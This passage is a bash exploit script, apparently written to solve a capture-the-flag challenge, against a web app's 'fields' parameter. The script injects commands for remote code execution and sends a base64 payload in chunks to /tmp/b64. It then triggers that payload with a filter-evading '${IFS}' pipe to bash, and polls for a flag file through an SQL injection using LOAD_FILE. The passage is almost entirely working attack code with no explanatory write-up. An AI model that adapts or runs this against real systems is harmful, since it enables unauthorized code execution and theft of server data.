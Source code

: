 ```bash
    MODIFIED_TEMPLATE=$(echo "$TEMPLATE_FIELDS" | sed 's*id>/tmp/winz2*__RCE_COMMAND_PLACEHOLDER__*')
    FIELDS_PAYLOAD_RAW=$(echo "$MODIFIED_TEMPLATE" | sed "s*__RCE_COMMAND_PLACEHOLDER__*${RCE_COMMAND}*")

    # 6) URL-encode the 'fields' and build the POST body.
    FIELDS_PAYLOAD_ENCODED=$(urlencode "$FIELDS_PAYLOAD_RAW")
    DATA="sessionId=${SESSION_ID}&fields=${FIELDS_PAYLOAD_ENCODED}"

    # 7) Wait 1.5 seconds before each request, then send it.
    sleep 1.5
    curl -s -o /dev/null -w "Status:%{http_code}\n" -X POST \
        -H "Content-Type: application/x-www-form-urlencoded" \
        -H "User-Agent: Mozilla/5.0 (Exploit Script)" \
        -H "Accept: */*" \
        --data-binary "$DATA" \
        "$RCE_URL"
done
sleep 1.5
RCE_TRIGGER_COMMAND="cat\${IFS}/tmp/b64|base64\${IFS}-d|bash"
FIELDS_PAYLOAD_TRIGGER_RAW=$(echo "$MODIFIED_TEMPLATE" | sed "s*__RCE_COMMAND_PLACEHOLDER__*${RCE_TRIGGER_COMMAND}*")
FIELDS_PAYLOAD_TRIGGER_ENCODED=$(urlencode "$FIELDS_PAYLOAD_TRIGGER_RAW")
DATA_TRIGGER="sessionId=${SESSION_ID}&fields=${FIELDS_PAYLOAD_TRIGGER_ENCODED}"
curl -s -o /dev/null -w "Status:%{http_code}\n" -X POST \
    -H "Content-Type: application/x-www-form-urlencoded" \
    -H "User-Agent: Mozilla/5.0 (Exploit Script)" \
    -H "Accept: */*" \
    --data-binary "$DATA_TRIGGER" \
    "$RCE_URL"

echo ""
echo "----------------------------------------------------"
echo "The base64 payload was sent in chunks to /tmp/b64 and then executed."
echo "Polling for flag in mysql"

DATA="sessionId=${SESSION_ID}&fields=sql%28%27to_base64%28LOAD_FILE%28%22%2Fvar%2Flib%2Fmysql-files%2Fflag%22%29%29+--+%27%29q"
tmp="$(mktemp)"
trap 'rm -f "$tmp"' EXIT

while :; do
  code="$(curl -sS --path-as-is --compressed \
    -o "$tmp" -w '%{http_code}' \
    -X POST "$RCE_URL" \
    -H 'Content-Type: application/x-www-form-urlencoded' \
    --data-raw "$DATA")"

  if [ "$code" = "200" ]; then
    # Try to grab a base64-looking blob; if not, fall back to ignoring garbage.
    if b64="$(tr -d '\r\n' <"$tmp" | grep -oE '[A-Za-z0-9+/=]{16,}' | head -n1)"; then
      if [ -n "$b64" ] && printf '%s' "$b64" | base64 --decode 2>/dev/null; then
        echo
        break
      fi
    fi
    # Fallback: decode while ignoring non-base64 characters (GNU coreutils)
    if decoded="$(base64 --decode --ignore-garbage "$tmp" 2>/dev/null)"; then
      printf '%s\n' "$decoded"
    else
      echo "HTTP 200 received, but could not decode base64. Raw body below:"
      cat "$tmp"
    fi
```